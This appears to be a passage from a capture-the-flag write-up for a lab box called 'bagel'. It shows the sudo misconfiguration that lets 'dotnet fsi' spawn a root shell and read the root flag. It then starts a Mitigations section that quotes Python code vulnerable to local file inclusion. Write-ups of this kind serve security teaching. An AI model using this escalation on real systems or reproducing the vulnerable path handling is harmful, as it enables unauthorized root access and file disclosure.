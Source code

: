 ```bash
[developer@bagel phil]$ sudo -l
Matching Defaults entries for developer on bagel:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User developer may run the following commands on bagel:
    (root) NOPASSWD: /usr/bin/dotnet
```

They could run dotnet as root. I looked on GTFOBins, and saw that I could launch system commands from the [F# interactive shell](https://gtfobins.github.io/gtfobins/dotnet/).

```bash
[developer@bagel phil]$ sudo dotnet fsi

Welcome to .NET 6.0!
---------------------
SDK Version: 6.0.113

----------------
Installed an ASP.NET Core HTTPS development certificate.
To trust the certificate run 'dotnet dev-certs https --trust' (Windows and macOS only).
Learn about HTTPS: https://aka.ms/dotnet-https
----------------

...

For help type #help;;

> System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;

sh-5.2# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

sh-5.2# cat /root/root.txt
REDACTED
```

## Mitigations

The first issue in the box was the LFI vulnerability. It was very easy to find.

```python
page = 'static/'+request.args.get('page')
if os.path.isfile(page):
    resp=send_file(page)
```
